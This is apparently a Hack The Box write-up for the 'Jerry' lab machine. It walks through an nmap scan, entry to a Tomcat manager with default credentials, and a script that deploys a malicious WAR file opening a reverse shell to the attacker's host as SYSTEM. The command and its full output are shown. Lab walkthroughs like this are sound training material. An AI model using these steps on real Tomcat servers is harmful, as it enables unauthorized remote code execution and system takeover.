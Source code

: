 ```yaml
---
title: "Jerry"
date: 2025-07-26 14:34:00 +0500
categories: [Boxes]
tags: [HTB, Box, Windows, Easy, Weak Tomcat Configuration, Malicious WAR File Deployment, ]
---
```


## Recon

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN jerry 10.10.10.95                                                                                                       
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-26 14:39 PKT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.67 seconds
```

We only discover an http exposed interface.

On visiting `10.10.10.95:8080` we discover successful installation of tomcat.

![alt text](/assets/images/jerry-tomcat.png)

The manager app button seems interesting, on clicking it we are presented with a login. On trying creds `admin:admin` it leads us to a 403 page. On that page they show an example of how to setup the config for creds. The example creds are `tomcat:s3cret` we try that and we can successfully access the manager. 

## Foothold

We can deploay a WAR file from the tomcat manager. We could craft a malicious WAR file and deploy a reverse shell. 

[WAR File](https://github.com/thewhiteh4t/warsend.git)

We execute the script:

```bash
./script.sh 10.10.16.13 1234 10.10.10.95 8080 tomcat s3cret revshell                                                                                                                                                                                  
[>] Created By : thewhiteh4t
[>] Version    : 1.0.0

[+] LHOST                  : 10.10.16.13
[+] LPORT                  : 1234
[+] RHOST                  : 10.10.10.95
[+] RPORT                  : 8080
[+] Username               : tomcat
[+] Password               : s3cret
[+] Reverse Shell Filename : revshell
[+] Payload                : java/jsp_shell_reverse_tcp

[!] Checking Dependencies...                                                                                                                                                                                  

[!] Testing Tomcat Manager Text API Access...                                                                                                                                                                 
                                                                                                                                                                                                              
[+] Login Successful!
                                                                                                                                                                                                              
[+] Generating WAR Reverse Shell...
Payload size: 1097 bytes
Final size of war file: 1097 bytes

[!] Uploading WAR File...
OK - Deployed application at context path /revshell

[!] Triggering Reverse Shell...                                                                                                                                                                               
                                                                                                                                                                                                              
[+] Starting Listener...
listening on [any] 1234 ...
connect to [10.10.16.13] from jerry.htb [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

## Privilege Escalation

We already are the top most privilege:

```powershell
C:\Users\Administrator\Desktop\flags>whoami
nt authority\system
```

We can find the flag here:

```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,564,544 bytes free
```

